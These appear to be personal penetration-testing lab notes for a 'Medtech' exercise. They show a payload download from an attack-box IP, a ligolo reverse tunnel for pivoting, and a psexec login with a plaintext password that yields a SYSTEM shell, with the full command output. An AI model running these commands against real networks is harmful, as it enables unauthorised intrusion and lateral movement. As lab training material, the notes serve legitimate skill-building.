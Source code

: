 Had good luck with ligolo in the past lets try again..

```powershell
iwr -uri "http://192.168.45.228:8888/agent.exe" -outfile "C:\Users\Public\Downloads\agent.exe"
```

# ligolo setup

on attack box
```bash
 sudo ip tuntap add user <username> mode tun ligolo

 sudo ip link set ligolo up

 ./poxy -selfcert
```

on victem

``` powershell
.\agent -connect 192.168.45.228:11601 -ignore-cert
```

Forgot to add here, that we need to run ifconfig to check and see if there are other connections to the box. this was done here, and the connection to the 172.16.201.xx network was found. 

on attack box

``` bash 
 sudo ip route add <network_address>/<CIDR> dev ligolo
```

I ran a full scan of all targets last night but was taking a long time. In most cases, I would go thru the data I already had, and look for a box to narrow in on scanning again, As I have experience with this box already, I have gone from my old notes, and saw that I went into the .11 box next. I am avoiding using my old notes to continue on, I want to see what I see with autorecon, and running a narrowed scan on .11

I see that SMB ports are open, reminder to self, autorecon takes its time ill have to look into ways to speed it up if possible, also junks up the pipe so much I dont think I can try other things..

And my thoughts were right, auto reacon really junks the env. I dont know if i would use this in a live env. But for this it is good enough.. 

I am in .11 with

```bash
┌──(zell㉿kali)-[~/…/Medtech/results/192.168.201.121/exploit]
└─$ /usr/local/bin/psexec.py medtech.com/joe:Flowers1@172.16.201.11
Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Requesting shares on 172.16.201.11.....
[*] Found writable share ADMIN$
[*] Uploading file lQUmnaEf.exe
[*] Opening SVCManager on 172.16.201.11.....
[*] Creating service OhHA on 172.16.201.11.....
[*] Starting service OhHA.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.20348.169]
(c) Microsoft Corporation. All rights reserved.

C:\Windows\system32>whoami /all
 
USER INFORMATION
----------------

User Name           SID     
=================== ========
nt authority\system S-1-5-18


GROUP INFORMATION
-----------------

Group Name                             Type             SID          Attributes                                        
====================================== ================ ============ ==================================================
BUILTIN\Administrators                 Alias            S-1-5-32-544 Enabled by default, Enabled group, Group owner    
Everyone                               Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users       Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
Mandatory Label\System Mandatory Level Label            S-1-16-16384                                                   


PRIVILEGES INFORMATION
----------------------

Privilege Name                            Description                                                        State   
========================================= ================================================================== ========
SeAssignPrimaryTokenPrivilege             Replace a process level token                                      Disabled
SeLockMemoryPrivilege                     Lock pages in memory                                               Enabled 
SeIncreaseQuotaPrivilege                  Adjust memory quotas for a process                                 Disabled
SeTcbPrivilege                            Act as part of the operating system                                Enabled 
SeSecurityPrivilege                       Manage auditing and security log                                   Disabled
SeTakeOwnershipPrivilege                  Take ownership of files or other objects                           Disabled
SeLoadDriverPrivilege                     Load and unload device drivers                                     Disabled
SeSystemProfilePrivilege                  Profile system performance                                         Enabled 
SeSystemtimePrivilege                     Change the system time                                             Disabled
SeProfileSingleProcessPrivilege           Profile single process                                             Enabled 
SeIncreaseBasePriorityPrivilege           Increase scheduling priority                                       Enabled 
SeCreatePagefilePrivilege                 Create a pagefile                                                  Enabled 
SeCreatePermanentPrivilege                Create permanent shared objects                                    Enabled 
SeBackupPrivilege                         Back up files and directories                                      Disabled
SeRestorePrivilege                        Restore files and directories                                      Disabled
SeShutdownPrivilege                       Shut down the system                                               Disabled
SeDebugPrivilege                          Debug programs                                                     Enabled 
SeAuditPrivilege                          Generate security audits                                           Enabled 
SeSystemEnvironmentPrivilege              Modify firmware environment values                                 Disabled
SeChangeNotifyPrivilege                   Bypass traverse checking                                           Enabled 
SeUndockPrivilege                         Remove computer from docking station                               Disabled
SeManageVolumePrivilege                   Perform volume maintenance tasks                                   Disabled
SeImpersonatePrivilege                    Impersonate a client after authentication                          Enabled 
SeCreateGlobalPrivilege                   Create global objects                                              Enabled 
SeIncreaseWorkingSetPrivilege             Increase a process working set                                     Enabled 
SeTimeZonePrivilege                       Change the time zone                                               Enabled 
SeCreateSymbolicLinkPrivilege             Create symbolic links                                              Enabled 
SeDelegateSessionUserImpersonatePrivilege Obtain an impersonation token for another user in the same session Enabled 

ERROR: Unable to get user claims information.

C:\Windows\system32>
C:\Windows\system32>

```





